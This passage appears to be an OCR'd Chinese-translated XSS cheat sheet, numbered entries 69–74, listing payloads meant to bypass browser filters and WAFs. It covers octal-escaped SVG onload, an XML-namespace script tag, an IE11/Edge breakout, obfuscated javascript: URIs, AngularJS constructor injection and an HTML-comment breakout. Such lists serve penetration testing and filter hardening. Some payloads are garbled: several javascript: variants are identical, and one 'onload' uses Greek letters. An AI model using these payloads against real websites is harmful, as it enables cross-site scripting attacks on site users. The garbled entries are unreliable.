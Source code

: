 ##### 69.DOM Insertion via Server Side Reflection (通过服务器端反射插入DOM)

```
以下payload用于,当输入被反射到源中而不能执行时使用,为了避免浏览器筛选和WAF,插入到DOM中。

\74svg o\156load\75alert\501\51\76
```

##### 70.XML-Based Vector for Bypass (基于XML的绕过)

```
以下payload用于在XML网页中绕过浏览器筛选和WAF。 如果输入插入到了注释节点中，则在payload前加一个"->"，如果输入落在CDATA节中，则在有效负载前加一个]]>。

<_:script xmlns:_="http://www.w3.org/1999/xhtml">alert(1)</_:script>
```

##### 71.Javascript Context - Code Injection (IE11/Edge Bypass) (Javascript上下文-代码注入（IE11/Edge 绕过）)

```
以下payload用于在注入javascript上下文时,绕过Microsoft IE11或Edge浏览器。 

"'>confirm(1)</Script><Svg><Script/1='
```

##### 72.Javascript Pseudo-Protocol Obfuscation (Javascript伪协议混淆)

```
以下payload用于绕过查找javascript:alert(1)的筛选器。在添加alert(1)之前，请确保它可以与"1"成功弹窗,这个payload可能需要一些额外的模糊处理,通过url编码,才能完全绕过过滤器。最后一个选项仅适用于payload的DOM操作（例如在基于位置的payload或基于DOM的XSS中）。

javascript:1
javascript:1
javascript :1
javascript:1
"javas%0Dcript:1"
%00javascript:1
```

##### 73.AngularJS Injection (v1.6+) – No Parentheses, Brackets or Quotes (AngularJS注入-无括号、括号或引号)

```
以下payload用于避免xss过滤。第一,二个payload为了避免括号,最后一个payload,通过在URL中通正确编码,在相同或分离的注入点中使用它来避免引号。 

{{$new.constructor('alert\u00281\u0029')()}}
{{$new.constructor('alert(1)')()}}
<x ng-init=a='alert(1)'>{{$new.constructor(a)()}}
```

##### 74.Inside Comments Bypass (内部评论绕过)

```
如果HTML注释中允许任何内容，则使用payload（regex:/<！--.*-->/). 

<!--><svg οnlοad=alert(1)-->
```
